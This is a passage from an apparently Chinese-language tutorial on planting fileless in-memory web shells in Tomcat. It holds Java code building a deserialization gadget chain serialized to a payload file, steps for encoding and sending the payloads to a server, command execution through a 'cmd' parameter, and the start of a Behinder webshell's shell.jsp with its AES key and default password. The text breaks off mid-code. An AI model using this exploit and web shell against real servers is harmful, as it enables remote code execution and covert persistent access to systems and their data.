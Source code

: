 ```java
        queue.add(new BigInteger("1"));

        Field f3 = comparator.getClass().getDeclaredField("property");
        f3.setAccessible(true);
        f3.set(comparator,"outputProperties");

        Field f4 = queue.getClass().getDeclaredField("queue");
        f4.setAccessible(true);
        Object[] queueArray = (Object[]) f4.get(queue);
        queueArray[0] = templates;
        queueArray[1] = templates;

        try{
           FileOutputStream fileOutputStream = new FileOutputStream("tomcatEcho.ser");
           ObjectOutputStream objectOutputStream = new ObjectOutputStream(fileOutputStream);
           objectOutputStream.writeObject(queue);
        }catch (Exception e){
            e.printStackTrace();
        }
    }
}

```
然后对应将TomcatEcho.ser，TomcatInject.ser 通过Base64编码一下

![image.png](Tomcat 内存马无文件攻击.assets/2023_05_19_10_36_44_W1nCIAeU.png)

![image.png](Tomcat 内存马无文件攻击.assets/2023_05_19_10_36_45_wUdgzHNJ.png)

然后再分别发送至服务器（在参数里切记一定要url编码一次）

![image.png](Tomcat 内存马无文件攻击.assets/2023_05_19_10_36_46_Rp61hSuI.png)

![image.png](Tomcat 内存马无文件攻击.assets/2023_05_19_10_36_47_SEdrfte6.png)

然后在web根路径下，带入参数cmd，并执行命令，如下所示

![image.png](Tomcat 内存马无文件攻击.assets/2023_05_19_10_36_47_NKxbvUdc.png)

![image.png](Tomcat 内存马无文件攻击.assets/2023_05_19_10_36_48_uvM76NJy.png)

### 注入冰蝎马
注入冰蝎马这里需要注意，虽然只是修改filter逻辑，在doFilter()编写冰蝎马逻辑
首先查看Behinder_v3.0_Beta_9中的shell.jsp代码
```java
<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*" %>
<%!
    class U extends ClassLoader {
        U(ClassLoader c) {
            super(c);
        }
        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }
%>
<%
    if (request.getMethod().equals("POST")) {
        String k = "e45e329feb5d925b";/*该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond*/
        session.putValue("u", k);
        Cipher c = Cipher.getInstance("AES");
        c.init(2, new SecretKeySpec(k.getBytes(), "AES"));
        new U(this.getClass().getClassLoader()).g(
```